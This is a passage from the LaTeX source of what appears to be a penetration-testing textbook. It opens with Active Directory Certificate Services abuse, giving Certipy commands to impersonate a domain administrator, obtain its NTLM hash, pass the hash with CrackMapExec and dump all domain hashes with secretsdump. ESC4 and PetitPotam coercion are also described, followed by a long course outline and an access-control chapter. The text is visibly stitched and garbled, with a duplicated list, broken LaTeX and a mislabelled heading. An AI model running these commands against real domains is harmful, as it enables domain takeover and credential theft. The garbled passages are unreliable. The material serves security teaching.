    
\includegraphics[width=0.75\linewidth]{certipy7.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Exploiting this misconfiguration allows an attacker to escalate privileges from a regular domain user to a domain administrator. The process begins by requesting a new certificate from the vulnerable template. To do this, the attacker must already have valid credentials for a standard domain user.
\begin{notebox}
\begin{minted}{bash}
certipy req -dc-ip <DC_IP> -u <Username> -p <Password> -target-ip <CA_IP> -ca <CA_Server_Name> -template <Vulnerable_Template_Name>
\end{minted}
\end{notebox}
This command submits a certificate request to the Certificate Authority using the specified vulnerable template, which can then be abused to gain elevated access.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy8.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Once we have obtained the initial certificate from the vulnerable template, the next step is to leverage it for impersonation and then to request a new certificate on behalf of another account in the domain-in this case, the domain administrator. This is possible because the vulnerable template grants us the ability to impersonate other users when submitting certificate requests, or \textit{CSRs - Certificate Signing Requests.}

With Certipy, we can leverage the first certificate to request a User certificate for the administrator account, as such:
\begin{notebox}
\begin{minted}{bash}
certipy req -u <Username> -p <Password> -ca <CA_Server_Name> -target <CA_IP> -template User -on-behalf-of <Domain\Admin_Username> -pfx <Saved_Certificate>
\end{minted}
\end{notebox}
\subsubsection{Breaking Down The Command}
This command requests and retrieves a new User certificate that is valid for the administrator account. At this stage, the certificate is simply acquired-it has not been used yet. You do not yet \textit{use} the certificate-you are just obtaining it. Think of it as forging a digital ID card for the administrator: you now possess it, but you have not "shown it at the door" just yet (e.g., presented it for access).
\begin{itemize}
    \item \verb|-u <Username> -p <Password>:| The original standard user credentials.
    \item \verb|-ca <CA\_Server\_Name> -target <CA\_IP>:| Identifies the Certificate Authority.
    \item \verb|-template User:| Requests a standard User template certificate.
    \item \verb|-on-behalf-of <Domain\\Admin\_Username>:| The critical flag-tells the CA to issue the certificate for the administrator.
    \item \verb|-pfx <Saved\_Certificate>:| Supplies the first certificate, which grants the right to impersonate.
\end{itemize}

The end result is that you have the administrator's certificate file (a \texttt{.pfx}).
\verb|-u <Username> -p <Password>:| The standard domain user credentials with which we started.
\item \verb|-ca <CA_Server_Name> -target <CA_IP>:| Identifies the Certificate Authority (CA) from which we are requesting.
\item \verb|-template User:| Requests a certificate using the built-in User template.
\item \verb|-on-behalf-of <Domain\Admin_Username>:| The key flag tells the CA to issue the certificate for another user (here, the administrator).
\item \verb|-pfx <Saved_Certificate>:| Supplies the previously obtained certificate that grants us the right to impersonate.
➡️ \textbf{Result:} We now hold a valid User certificate for the domain administrator. This certificate can be used to authenticate as that account-effectively escalating our privileges from a low-level domain user to Domain Admin.
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{certipy9.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
With the administrator's credential now up our sleeve, the final step is to use it to authenticate to the domain. Certipy can convert the certificate into Kerberos-based credentials, which, in turn, gives us access to the administrator account-including its NTLM password hash.
\begin{notebox}
\begin{minted}{bash}
certipy auth -pfx <Admin_Certificate.pfx> -dc-ip <DC_IP>
\end{minted}
\end{notebox}
What is happening here is that when Certipy uses the administrator's certificate, it performs PKINIT as discussed above. PKINIT is Kerberos authentication based on a certificate, against the domain controller. The domain controller validates and verifies the certificate as proof of identity and responds by issuing a valid Ticket Granting Ticket (TGT) for the administrator account.

With that TGT in place, Certipy is able to extract the administrator's NTLM hash. This hash can then be reused in Pass-the-Hash-style attacks or leveraged with post-exploitation tools such as Secretsdump, CrackMapExec, or \texttt{smbclient}.

It is at this stage, the attacker has effectively taken full control of the domain. Possessing both the administrator's certificate and hash allows them to impersonate the account anywhere across the AD environment, granting unrestricted access. Using the tools we have previously learned about such as CME, we can take complete control of the domain.
\begin{notebox}
\begin{minted}{bash}
crackmapexec smb {TARGET_IP_ADDRESS} -u {USERNAME} -H {Password Hash}
\end{minted}
\end{notebox}
\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{cme1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

---

\section{Post-Exploitation: Dumping Password Hashes}

Once a valid certificate has been obtained—especially one that allows impersonation of privileged accounts like a Domain Controller—we can move into post-exploitation activities. One of the most valuable actions at this stage is retrieving **NTLM password hashes** from the domain.

This can be accomplished using the powerful \texttt{secretsdump.py} utility from the Impacket toolkit. By leveraging the credentials or the Kerberos TGT of a compromised DC account, we can extract hashes for **all domain users, including administrators, service accounts, and computer accounts.

bash
secretsdump.py -k -no-pass <DOMAIN>/<DC\_HOSTNAME>\$
-k: Use Kerberos authentication (with ticket from certificate abuse)
-no-pass: No password needed (since TGT is used)

These hashes can then be cracked offline or used in Pass-the-Hash attacks to move laterally and escalate further.



\subsection{Exploit 3: ESC4-Over-Permissioned Certificate Templates}

ESC4 (Enterprise Security Configuration 4) describes a class of vulnerabilities that arise when **low-privileged users are granted **excessive control over certificate templates**. This misconfiguration is often overlooked but can have severe consequences, as it allows unprivileged users to manipulate how certificates are issued and who can request them.

To demonstrate this, let’s assume we’re operating in a lab or test environment. A certificate template is configured to allow **domain users full control**—either directly through security descriptors or via Active Directory permissions (e.g., `Write`, `Enroll`, or `AllExtendedRights`). This means any authenticated user in the domain can:

* Modify template attributes (e.g., EKUs, SANs)
* Assign the template to themselves or others
* Request certificates with elevated privileges

With this level of control, a user can effectively **escalate their privileges**, often to **domain admin**, by requesting a certificate for a more privileged identity and then authenticating via **PKINIT** (Kerberos certificate authentication).

For instance, a user can:

1. Modify a template to include \texttt{Client Authentication} and \texttt{Smartcard Logon}.
2. Request a certificate with a SAN matching a privileged account (e.g., \texttt{administrator@domain.local}).
3. Use Certipy to obtain a TGT as that user.

This is a textbook example of ESC4,  the importance of tightly controlling who has access to certificate templates in Active Directory environments.


\subsection{Why ESC3 Matters}
The "Supply in the request" setting lets whoever requests a certificate decide what goes into the certificate's \textbf{\textit{Subject Alternative Name (SAN)}}. That means an attacker could submit a request but supply a SAN for any user or computer in the domain-including Domain Admins or Domain Controllers-and end up with a certificate that lets them impersonate that identity.
\subsection{How PetitPotam Abuses \texttt{EfsRpcOpenFileRaw}}
PetitPotam uses EfsRpcOpenFileRaw not to access a real file, but to coerce the target (e.g., Domain Controller) into authenticating to an attacker's machine over SMB or HTTP using NTLM.

Here is how it works:

The attacker runs PetitPotam, pointing it at the target DC.

PetitPotam calls EfsRpcOpenFileRaw, asking the DC to open a non-existent or crafted file path that points to the attacker’s machine, e.g., \\attacker\_ip\fake\_share\file.

Windows automatically attempts to authenticate to the UNC path provided (because it thinks that it is a valid file path).

This triggers the DC to send its NTLM credentials (usually as a machine account, such as DC01\$) to the attacker's listener (e.g. Responder, NTLMRelayX, or Certipy).

The attacker captures and relays the NTLM authentication to a vulnerable service (such as a certificate authority) to impersonate the DC.

\subsection{Why PetitPotam Is Dangerous}
The danger of the PetitPotam attack lies in its simplicity, stealth, and potential for complete domain compromise. One of the most alarming aspects is that no user interaction is required. The attack is initiated entirely by the attacker, who sends a specially crafted Remote Procedure Call (RPC) to a target server (such as a Domain Controller). This call is processed automatically by the system, making it extremely difficult for users or administrators to detect in real time.

Even more critically, the attacker does not need valid credentials to launch the attack. This means an unauthenticated user—someone with no legitimate access to the network—can trigger the vulnerability simply by having network connectivity to the target. The attack exploits a flaw in the way the Encrypted File System Remote Protocol (MS-EFSRPC) handles requests, specifically using the EfsRpcOpenFileRaw function to coerce the server into authenticating to a machine controlled by the attacker.

What makes this even more dangerous is that fully patched Windows systems may still be vulnerable if the Active Directory Certificate Services (ADCS) infrastructure is misconfigured. ADCS, which provides certificate-based authentication within a Windows domain, can be tricked into issuing authentication certificates based on relayed NTLM credentials. If the Certificate Authority is configured to accept NTLM authentication and includes insecure certificate templates (such as DomainController), it becomes a high-value target in a relay attack.

Once the NTLM credentials are captured and successfully relayed, the attacker can request a Kerberos Ticket Granting Ticket (TGT) on behalf of the Domain Controller. This effectively gives the attacker full impersonation of the DC, allowing them to issue tickets, access any resource in the domain, create new accounts, and ultimately take over the entire Active Directory environment. The attack combines a subtle misconfiguration with a powerful protocol-level abuse, making it one of the more severe threats to Windows enterprise environments if left unmitigated.
Distributed/Denial of Service (DDoS)
	Defining Denial of Service
	Goals of a DoS Attack
	Impact and Modes of Attack
	DoS Attack Classification
	Buffer Overflow Attacks
	Distributed DoS Attacks and Characteristics
	Agent Handler Model
	IRC-Based DDoS Attack Model
	DDoS Attack Taxonomy
	Reflected DDoS Attacks
	Reflection of the Exploit
	Countermeasures for Reflected DoS
	DDoS Countermeasures
	Defensive Tool: Zombie Zapper
	Worms: Slammer and MyDoomB
Social Engineering
	Defining Social Engineering
	Art of Manipulation
	Human Vulnerabilities and Weaknesses
	Common Types of Social Engineering Attacks
	Human-Based Impersonation
	Computer-Based Social Engineering
	Reverse Social Engineering
	Policies and Procedures
	Security Policies Checklist
Session Hijacking
	Understanding and Defining Session Hijacking
	Spoofing vs. Hijacking
	Session Hijacking Attack Phases
	Types of Session Hijacking Attacks
	TCP Concepts: The Three-Way Handshake
	TCP Sequence Numbers
	Remote TCP Session Reset Utility
	Dangers Posed by Session Hijacking
	Protection Against Session Hijacking Attacks
	Countermeasures: IP Security (IPSec)
Hacking Web Servers
	Basic Functions of Web Servers
	How Web Servers Are Ultimately Compromised
	Popular Web Servers and Common Security Threats
	Apache Vulnerabilities
	Attacks Against IIS (Internet Information Services)
		IIS Components
	Buffer Overflow Vulnerabilities
	`ISAPI.DLL` Exploit
	Code Red and `ISAPI.DLL` Exploit
	Unicode
		Unicode Directory Traversal Vulnerability
	`Msw 3prt` IPP Vulnerability
	IPP Buffer Overflow
	Countermeasures
	Unexpected Executed Path Vulnerability
	File System Traversal Countermeasures
	WebDAV / `ntdll.dll` Vulnerability
	`RPCDCOM` Vulnerability
	ASN Exploits
	IIS Logs
	Network Tool: Log Analyzer
	Hacking Tool: Clean IISLog
	Escalating Privileges in IIS
	Windows Task Scheduler Exploit Tool
	Microsoft Windows `POSIX`
	Subsystem Local Privilege Escalation Exploit Tool
	Hotfixes and Patches
	Vulnerability Scanners
	Web Application Firewalls (WAFs)
	Network Tools
	Countermeasures
	Increasing Web Server Security
	
Web-Based Password Cracking Techniques
	Defining Authentication
	Authentication Mechanisms
	HTTP Authentication
	Basic Authentication
	Digest Authentication
	Integrated Windows (NTLM) Authentication
	Negotiate Authentication
	Certificate-based Authentication
	Forms-based Authentication
	Microsoft Passport Authentication
	Defining Functions of Password Crackers
	Modus Operandi of an Attacker
	Attacks - Classifications
	Password Guessing Techniques
	Querying Strings
	Cookies
	Dictionary Maker
Malware and Friends

Viruses and Worms
Malicious Code
Viruses
Background
Virus File Extensions
Virus Structure
Types of Viruses
	Polymorphic
	Multipartite
Classification of Viruses
Worms
	Sasser Worm
	Blaster
	Code Red Worm
	Nimda Worm
'ILoveYou' Virus
Tools to Detect Virus and Worm-Affected Systems
Retina Sasser Worm Scanner
Retina MyDoom Scanner
Retina Sapphire SQL Worm Scanner
Retina Nimda Scanner
Avoiding Virus and Worm Infections
Tasks for Viruses and Worms
Introduction to Malware
Trojans and Backdoors
Trojan Horse
How a Trojan Horse Functions
Autostart Folder
Explorer Startup
Scheduled Tasks
Things to Look For in the Windows Registry
Things to Look for in Syslog and Windows Event Viewer
How to Tell if File Extensions Have Been Modified by Malware
Registry Shell Open
ICQ Net Detect Method
ActiveX Components
Features of Trojan Horses
Remote Access Trojans (RATs)
Password Sending Trojans
Keylogger Trojans
Destructive Trojans
Denial of Service (DoS) Attack Trojans
Proxy / Wingate Trojans
FTP Trojans
Software Detection Killers
How Trojans Are Installed
Trojan Infections via ICQ
IRC (Internet Relay Chat)
Email Attachments
Browser and Email Software Bugs
NetBIOS File Sharing
Fake Antivirus
Fake Programs
Identity Detection
Virus Signatures
Mutating Viruses
Spying on Victim's Information
Trojan Ports
Backdoors
Tools for Trojans and Backdoors
NetBus
SubSeven
BackOrifice
BackOrifice Features
BO2K Configuration Wizard
Donald Dick
RECUB Backdoor
Anti-Trojan Software
TDS-3 Trojan Defense Suite (TDS)
LockDown 2000
Trojan Remover Anti-Trojan Software
Pest Patrol
Tauscan Trojan Scanner
LogMonitor
PreView
NetBus Trojan
SubSeven Trojan
Keyloggers and Spyware
Scareware
PUPs and PUAs
eBlaster
ActiveX Advanced Keylogger
Hardware Keyloggers
Tasks for Keyloggers and Spyware
ActMon Spyware
Perfect KeyLogger Spyware
Win-Spy Spyware

Penetration Testing

Pre-Engagement Interactions
Metrics for Time Estimation
Questionnaires
Specifying Start and End Dates
Specifying IP Ranges and Domains
Dealing with Third Parties
Payment Terms

Internal and External Penetration Testing
	Information Gathering
	Mapping the Internal Network
	Advanced Port Scanning Techniques
	Server OS Testing
	Services Fingerprinting
	RDP MiTM Attack
	Establishing Null Sessions
	Vulnerability Assessment Tools

Application Server Mapping
	OWASP Standard and Top 10 Vulnerabilities
	Manual Vulnerability Assessment
	Application Fingerprinting
	Web Directory Brute-Force
	Code Injection
	Automated Testing
	Vulnerability Scanning
	Fuzzing
	Hash Cracking
	Tomcat Penetration Testing
	SSL/TLS Security Testing

Database Penetration Testing
	MySQL Exploitation
	PostgreSQL Exploitation
	Couch DB Exploitation
	MS-SQL Exploitation

Linux OS Penetration Testing
	Reverse Shell
	File Transfer Techniques
	Abusing Network Shares
	Bypass Restricted Shell
	Abusing sudo Rights
	Misconfigured SUID Permissions
	Pivoting

Windows OS Penetration Testing
	OS Fingerprinting
	Bypassing Allowlisting Programs
	Privilege Escalation
	Active Directory (AD) Exploitation
	Lateral Movement
		Horizontal Movement
		Vertical Movement
	Domain Persistence Attack

Docker Penetration Testing
	Fundamentals of Docker
	Exploiting Docker Containers
	Container Vulnerability Assessment
	Poisonous Docker Images

Network Device Security Audit
	Router
	Switches
	Firewalls
	Data Leak Prevention

VoIP Penetration Testing
	SIP Protocol Enumeration
	Extension Brute-Force
	Extension Registration
	Call Spoofing
	Sniffing Calls
	
	
	
\chapter{Access Control Systems}
Access control systems can be broadly categorized into \textit{physical} and \textit{logical} types. 

Physical access control restricts entry to all physical locations, such as buildings or rooms, using methods like keypads, card readers, or biometric scanners.

Logical access control, on the other hand, regulates access to digital resources, such as computer systems or data, using methods like passwords, multi-factor authentication, and authorization policies.

\section{Physical Access Control Examples}
\begin{itemize}
    \item Keypads: Users enter a code to gain access.
    \item Card Readers: Access is granted by swiping or tapping a card.
    \item Biometric Scanners: Access is based on unique biological traits such as fingerprints or iris scans.
    \item Mullion Readers: Slim readers that can be mounted on narrow door frames.
    \item Door Strikes: Electric locks that release the door when triggered by an access control system.
\end{itemize}

\section{Logical Access Control Models}
There are six common logical access control models that you need to be aware of. 
\begin{enumerate}
    \item Discretionary Access Control (DAC) model
    \item Mandatory Access Control (MAC) model
    \item Role-Based Access Control (RBAC) model
    \item Rule-Based Access Control (RuBAC) model
    \item Lattice-Based Access Control (LBAC) model
    \item Attribute-Based Access Control (ABAC) model
\end{enumerate}

The models are ranked purely from an attacker's view-assuming average implementation quality-this is roughly the order from easiest to hardest to compromise:
\textbf{Ranking Summary} \textit{(Easiest →  Hardest):}
DAC →  RBAC →  RuBAC →  ABAC →  LBAC →  MAC

Below is a detailed breakdown of each model:

\section{Discretionary Access Control}
\textit{Discretionary Access Control (DAC)} gives resource owners the ability to manage who has access to their specific resources, such as files and folders. This allows the owner to determine which users or groups can read, write, or execute certain operations on those resources. It is a flexible system where the owner, rather than a central administrator, controls access rights. A more detailed explanation is offered below.

\begin{figure}
    \centering
    
\includegraphics[width=0.75\linewidth]{dac.png}
    \caption{Discretionary Access Control (DAC) model workflow}
    \label{fig:placeholder}
\end{figure}

\subsection{Key Aspects of DAC}
Key aspects of DAC include resource owners setting permissions, flexibility in granting access, and potential vulnerabilities due to human error.

\subsubsection{\textbf{1. Resource Ownership and Permissions:}}
\begin{itemize}
    \item In DAC, the owner of a resource has the power to define access rights for other users.
    \item This includes specifying who can read, write, or execute the resource(s).
    \item Examples include setting permissions on a file in a file system or sharing a Google Doc with specific users.
\end{itemize}
\subsubsection{\textbf{2. Flexibility and User Control:}}
\begin{itemize}
    \item DAC provides flexibility as users can easily adjust permissions based on their needs and collaboration requirements.
    \item Users can grant access to individuals or groups, making it easier to share resources.
    \item This contracts with Mandatory Access Control (MAC) where access is centrally controlled based on security labels.

\end{itemize}
\subsubsection{\textbf{3. Potential Vulnerabilities:}}
\begin{itemize}
    \item The flexibility that DAC provides can also be a source of a vulnerability.
    \item Incorrect permissions can be set by users that can potentially lead to unauthorized access.
    \item Insider threats are a concern, as users with access can potentially misuse it.
    \item Malware can spread more easily if users inadvertently grant access to malicious files.
4. \subsubsection{\textbf{Key Components:}}
\begin{itemize}
    \item Access Control Lists (ACLs): These lists define the permissions associated with a resource.
    \item Permissions and Rights: These specify what actions users can perform on a resource (e.g., read, write, execute).
    \item Resource Owners: These are the users who have the authority to manage access to their resources.
\end{itemize}
\end{itemize}

The core idea is that the individual or entity that owns a particular resource (such as a file, folder, or even an Active Directory object) gets to decide who can interact with it.

How DAC Works
Discretionary Access Control (DAC) is an access control model where the owner of a resource (like a file or folder) has the power to decide who can access it and what they can do with it. This means the owner can grant, revoke, or modify permissions at their discretion. It is a flexible approach, often used in environments where collaboration and sharing of network resources are common.

The Common DAC Workflow
\begin{enumerate}
    \item Resource Ownership: In DAC, each resource such as files, folders, databases) has an owner. This owner is typically the person who created the resource or otherwise designated as the controller.
    \item Permission Assignment: The owner can set permissions for different users and groups, specifying what actions they are allowed to perform on the resource. For example, an owner might grant one user read-only access while giving another user both read and write permissions.
    \item Flexibility and User-Centricity: DAC is known for its flexibility and user-friendliness. Resource owners can easily adjust permissions as needed, making it suitable for collaborative work and dynamic environments.
\end{enumerate}

DAC Attack Vectors
Attack vectors are the methods or pathways through which attackers can gain unauthorized access to a system, network, or application. They exploit vulnerabilities to carry out malicious activities like data theft or system compromise. Essentially, attack vectors are the \textit{"how"} of a cyberattack, while the \textit{"what"} is the target or attack surface. A detailed explanation is offered below.

1. Technical Vulnerabilities
Software Exploits:
Attackers exploit bugs or weaknesses in software, operating systems, and applications to gain access.
Network Exploits:
Attackers target network configurations, network communications protocols, and services to infiltrate systems.
Misconfigurations:
Incorrectly, unsecured systems such as cloud services or Windows security settings can create easy entry points.
Unpatched Vulnerabilities:
Systems with outdated software or security patches are vulnerable to known exploitations.
SQL Injection (SQLi): Attackers manipulate database queries to access or modify sensitive information.
Cross-Site Scripting (XSS): Attackers inject malicious scripts into websites to steal user data or redirect users.

2. Human-Based Vulnerabilities:
Phishing:
Attackers use deceptive emails, messages, or websites to trick users into revealing sensitive information or clicking malicious links. 
Social Engineering:
Attackers manipulate users into divulging information or performing actions that compromise security.
Insider Threats:
Malicious actions by individuals within an organization, such as employees or contractors. 
Compromised Credentials:
Weak or reused passwords, stolen credentials, or compromised accounts can be used to access systems. 
Third-Party Breaches:
Attackers exploit vulnerabilities in a company's third-party vendors to gain access to the company's systems. 

3. Other Attack Vectors:
Ransomware:
Attackers encrypt data and demand a ransom for its release. 

Malware:
Malicious software, such as viruses, worms, and Trojans, can be used to compromise systems. 

Brute-Force Attacks:
Attackers try numerous passwords until they find the correct one. 

DDoS Attacks:
Attackers flood a system with traffic to make it unavailable. 

DAC Attack Vector Mitigation Strategies
To mitigate DAC attack vectors, defenders need to focus on implementing strong security practices such as robust access controls, regular security assessments, and employee training. This includes enforcing strong password policies, using MFA, limiting user privileges, and regularly updating software. Additionally, continuous monitoring, network segmentation, and a comprehensive incident response plan are crucial for identifying and responding to potential attacks. A detailed explanation is offered below.

